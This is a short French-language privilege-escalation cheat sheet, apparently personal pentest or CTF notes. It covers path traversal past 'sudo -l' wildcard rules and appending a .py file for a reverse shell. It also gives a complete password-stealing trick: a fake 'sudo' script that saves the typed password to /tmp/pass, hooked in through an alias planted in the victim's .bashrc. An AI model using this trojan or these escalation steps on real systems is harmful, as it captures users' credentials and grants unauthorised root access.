 # Avec sudo -l
## pour un [folder]/*
Possible de faire un .. pour contourner et aller dans les autres dossiers
```bash
cat /home/user/folder/../../file
```

## pour un fichier en py suivi de *
Possible de concaténer un autre .py à la suite (pour faire un reverse shell par exemple)

# Récupérer le mot de passe d'un compte sudo
Créer le script suivant en le nommant `sudo`
```bash
#!/bin/bash 
echo -n "Password: "; read -s password; echo $password >> /tmp/pass; echo
```

Faire en sorte que le script soit executable
```bash
chmod +x sudo
```

Créer ou remplacer l'alias dans le .bashrc de l'utilisateur auquel on veut récupérer le mot de passe
```bash
alias sudo='/home/user/sudo'
```
